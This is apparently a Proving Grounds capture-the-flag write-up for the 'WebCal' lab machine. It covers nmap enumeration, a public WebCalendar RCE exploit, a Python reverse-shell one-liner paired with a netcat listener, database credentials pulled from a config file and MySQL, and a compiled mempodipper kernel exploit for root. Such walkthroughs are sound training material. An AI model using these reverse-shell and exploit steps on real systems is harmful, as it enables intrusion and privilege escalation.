 ```yaml
---
description: Pg Practice WebCal writeup
---
```


# WebCal

![](<../../../.gitbook/assets/image (791).png>)

## Nmap

```
sudo nmap 192.168.59.37 -sS -p- -sV 

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
22/tcp open  ssh     OpenSSH 5.8p1 Debian 7ubuntu1 (Ubuntu Linux; protocol 2.0)
25/tcp open  smtp    Postfix smtpd
53/tcp open  domain  ISC BIND 9.7.3
80/tcp open  http    Apache httpd 2.2.20 ((Ubuntu))
Service Info: Host:  ucal.local; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP

On port 21 we have Pure-FTPd running. I tried anonymous login and was unable to authenticate.

![](<../../../.gitbook/assets/image (771).png>)

## SMTP

I ran default scripts and version enumeration against port 25 and was unable to gain interesting information. I will instead move onto port 80 for the time being.

![](<../../../.gitbook/assets/image (772).png>)

## HTTP

The root page for Port 80 takes us to the following:

![](<../../../.gitbook/assets/image (773).png>)

Before navigating the website I ran `nikto` and `dirsearch.py` for further enumeration.

![Dirsearch](<../../../.gitbook/assets/image (774).png>)

![Nikto](<../../../.gitbook/assets/image (775).png>)

I looked through the discovered directories from `dirsearch.py` and was unable to identify any attack vectors. Looking through the output for `nikto` we do have a directory of /webcalendar/login.php.

![](<../../../.gitbook/assets/image (776).png>)

We arrive at a login page for WebCalendar v1.2.3. I looked up default credentials which are admin:admin and was denied a valid login. I researched exploits for WebCalendar and came to a RCE exploit.

{% embed url="https://www.exploit-db.com/exploits/18775" %}

As per the defined usage in the exploit code I ran the exploit.

```
php exploit.php <IP> /webcalendar/
```

![](<../../../.gitbook/assets/image (778).png>)

We now have a shell on the target machine and we are running as the user www-data. I found with this shell that when you trying changing directories or running scripts it would have unexpected behaviour.

I performed a quick check to see if python was installed using `which python`. After confirming Python is installed I tried a quick one liner reverse shell to see if we can get a more stable one.

First I started a `netcat` listener on my attacking machine:

```
sudo nc -lvp 443
```

The run the following command on the target machine:

```
python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

We now have a more stable shell.

![](<../../../.gitbook/assets/image (779) (1).png>)

I changed to the /tmp/ directory and set up a `Python SimpleHTTPServer` on my attacking machine and downloaded `linpeas.sh` to assist with privilege escalation.

![](<../../../.gitbook/assets/image (780).png>)

After running `linpeas` I had some trouble identifying a privilege escalation vector and fell into some rabbit holes. I decided to go back some and Google search for other WebCal exploits. I come across the following exploit.

{% embed url="https://www.exploit-db.com/exploits/40057" %}

Except I was not actually interested in the exploit but in code we see a mention of database credentials.

![](<../../../.gitbook/assets/image (781).png>)

I then looked for the settings.php file on the target machine which was on the /includes/ directory. Here I was able to find some database credentials.

![](<../../../.gitbook/assets/image (782).png>)

We have the credentials: `wc:edjfbxMT7KKo2PPC`

I was then enable to login to MySQL with the credentials we have gathered.

```
mysql -u wc -p 
```

I was then able to pull the WebCal admin username and password hash from the intranet database.

![](<../../../.gitbook/assets/image (783) (1).png>)

I ID'd the hash as being a MD5 hash. At this point I tried cracking with `hashcat` on multiple wordlists including rockyou.txt and was unable to crack.

After searching around for privilege escalation vectors I was absolutely stuck for an exploit. I then checked [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester).

![](<../../../.gitbook/assets/image (784) (1).png>)

The script directs to the memodipper exploit being a highly probable chance of exploitation. Download the exploit code and transfer it over to the target machine so we can compile.

{% embed url="https://git.zx2c4.com/CVE-2012-0056/plain/mempodipper.c" %}

I compiled the exploit with `gcc` and allowed the binary to be executable with `chmod`. Once completed I then called the exploit and was given a root shell.

```
gcc exploit.c -o exploit
chmod +x exploit
./exploit
```

![](<../../../.gitbook/assets/image (786).png>)
